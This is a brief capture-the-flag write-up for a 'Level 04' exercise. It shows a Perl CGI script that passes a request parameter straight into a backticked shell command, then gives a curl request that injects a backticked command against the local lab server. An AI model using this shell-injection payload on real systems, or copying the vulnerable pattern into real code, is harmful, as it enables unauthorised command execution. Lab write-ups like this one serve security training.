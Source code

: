 # Level 04

## step 1 : analyze level04.pl
```
$ cat ./level04.pl
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

## step 2 : shell injection
```
curl localhost:4747/?x=\`getflag\`
```
